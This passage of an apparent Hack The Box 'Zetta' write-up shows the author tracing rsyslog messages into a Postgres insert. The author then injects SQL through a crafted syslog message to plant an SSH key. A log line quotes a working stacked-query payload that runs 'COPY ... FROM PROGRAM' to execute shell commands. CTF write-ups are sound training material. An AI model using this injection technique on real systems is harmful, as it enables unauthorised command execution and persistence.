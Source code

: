 {% endhighlight %}

<p>Ok, so if we understand the config above properly, it looks like all local7.info syslog messages are triggering this pgsql.conf rule and ultimately being forwarded to a postgres instance.</p>

<p>If we poke around a bit more, we can see where postgres stores its own logs. If you are following my mindset, we're trying to map the data model of these logs so we can start testing different approaches.</p>

{% highlight shell %}
cat postgresql.conf | grep data_dir
data_directory = '/var/lib/postgresql/11/main'		# use data in another directory
{% endhighlight %}

{% highlight shell %}
roy@zetta:/tmp/rsyslog.d$ psql --host localhost -p 5432 -U postgres -W 
Password: 
psql: FATAL:  password authentication failed for user "postgres"
FATAL:  password authentication failed for user "postgres"
{% endhighlight %}

{% highlight shell %}
roy@zetta:/etc/postgresql/11/main$ tail -n1 /var/log/postgresql/postgresql-11-main.log
2019-11-07 18:14:01.561 EST [4242] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \','2019-11-07 23:13:51'))
{% endhighlight %}

<p>Ok, great, we now have any idea of what syslog messages get sent to posgres, local7.info, and we also have the location where the logs get forwarded to based on the rsyslog.d conf, postgresql-11-main.log. Thanks to that last location also now understand the format that these logs are being inserted into the postgres instance.</p>

<p>With all this information we have a good idea of how to proceed. We need to send our own custom syslog message, where we will attempt to execute a SQL injection through the postgres insert statement.</p>

<p>For the first part, the easiest way would be to use a utility like logger. We can pass it an attribute <code>-p local7.info</code> to ensure our message get's picked up by the postgres rule.</p>

<p>As far as the SQL injection payload, there are several ways to do this. During my investigations I figured out where the user postgres's homedirectory and SSH directory was located, therefore I decided to go with the ssh/authorized_keys route.</p>

<p>It took a lot of different tweaks and attempts to get the right character escapes, but finally I was able to get successful execution with the following.</p>

<p>
<img src="{{ '/assets/htb-zetta/root-sqlinject.PNG' | relative_url }}">
</p>


<p>And because why not, I then crafted another payload to cat the file and see if it was properly updated.</p>

{% highlight shell %}
2019-11-08 16:45:46.505 EST [1537] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \', now()); COPY syslog_lines FROM PROGRAM $$cat /var/lib/postgresql/.ssh/authorized_keys$$; -- #','2019-11-08 21:45:46')
2019-11-08 16:45:46.510 EST [1540] postgres@syslog WARNING:  there is no transaction in progress
tail: postgresql-11-main.log: file truncated
2019-11-08 16:47:28.425 EST [1540] postgres@syslog ERROR:  invalid input syntax for integer: "'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCr2BPHlixOqPa/cIzYufceN3xIqJVtpUrPwWh0kPwparSO7bCHpuU/ZmMw/wEOSEYqu68MuwH8Qqj7YwaPolU3UJK6toX598y9swOPrKmnZMBdIycMtp4ANw2+75tXQ8AiP1YKHRwTgDg8QC40l396Be45gq2c+u6vTJ2LhbJh4zteGVGg4aIziDl/b7DUA5MKh6oxa4s52D6C9CBrSziYsLzkL+UOCPC63uzIWc+BiteZkek9xJodUxidjlnWO52vZz/2ZXAu7j7RAcdr4bHY/UzZbAYCTAVpHZLdVYkZYoxMnYb5/xw7ONxgWSsuOUWjEAXgBL7PoHZd2VRbeKwn root@kali' 
	ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCr2BPHlixOqPa/cIzYufceN3xIqJVtpUrPwWh0kPwparSO7bCHpuU/ZmMw/wEOSEYqu68MuwH8Qqj7YwaPolU3UJK6toX598y9swOPrKmnZMBdIycMtp4ANw2+75tXQ8AiP1YKHRwTgDg8QC40l396Be45gq2c+u6vTJ2LhbJh4zteGVGg4aIziDl/b7DUA5MKh6oxa4s52D6C9CBrSziYsLzkL+UOCPC63uzIWc+BiteZkek9xJodUxidjlnWO52vZz/2ZXAu7j7RAcdr4bHY/UzZbAYCTAVpHZLdVYkZYoxMnYb5/xw7ONxgWSsuOUWjEAXgBL7PoHZd2VRbeKwn root@kali"